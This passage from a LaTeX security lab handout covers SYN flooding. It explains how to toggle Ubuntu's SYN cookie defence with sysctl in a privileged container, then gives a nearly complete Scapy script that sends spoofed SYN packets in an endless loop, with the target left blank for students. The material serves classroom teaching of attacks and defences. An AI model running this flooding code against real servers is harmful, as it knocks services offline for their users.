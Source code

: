 \paragraph{SYN Cookie Countermeasure:}
By default, Ubuntu's SYN flooding countermeasure is turned on. This 
mechanism is called SYN cookie. It will kick in if the machine
detects that it is under the SYN flooding attack. In our 
victim server container, we have already turned it off (see the 
\texttt{sysctls} entry in the \texttt{docker-compose.yml} file).  
We can use the following \texttt{sysctl} command to turn it on and off:

\begin{lstlisting}
# sysctl -a | grep syncookies     (Display the SYN cookie flag) 
# sysctl -w net.ipv4.tcp_syncookies=0 (turn off SYN cookie)
# sysctl -w net.ipv4.tcp_syncookies=1 (turn on  SYN cookie)
\end{lstlisting}

To be able to use \texttt{sysctl} to change the system variables 
inside a container, the container needs to be 
configured with the \texttt{"privileged: true"} entry (which is the 
case for our victim server). 
Without this setting, if we run the above command,
we will see the following error message. The container
is not given the privilege to make the change. 

\begin{lstlisting}
# sysctl -w net.ipv4.tcp_syncookies=1
sysctl: setting key "net.ipv4.tcp_syncookies": Read-only file system
\end{lstlisting}





\subsection{Task 1.1: Launching the Attack Using Python}

We provide a Python program called \texttt{synflood.py}, but
we have intentionally left out some essential data in the code. 
This code sends out spoofed TCP SYN packets, with 
randomly generated source IP address, source port, and sequence number.
Students should finish the code and then use it to 
launch the attack on the target machine:

\begin{lstlisting}
#!/bin/env python3
  
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip  = IP(dst="*.*.*.*")
tcp = TCP(dport=**, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src    = str(IPv4Address(getrandbits(32)))  # source iP
    pkt[TCP].sport = getrandbits(16)     # source port
    pkt[TCP].seq   = getrandbits(32)     # sequence number
    send(pkt, verbose = 0)
\end{lstlisting}

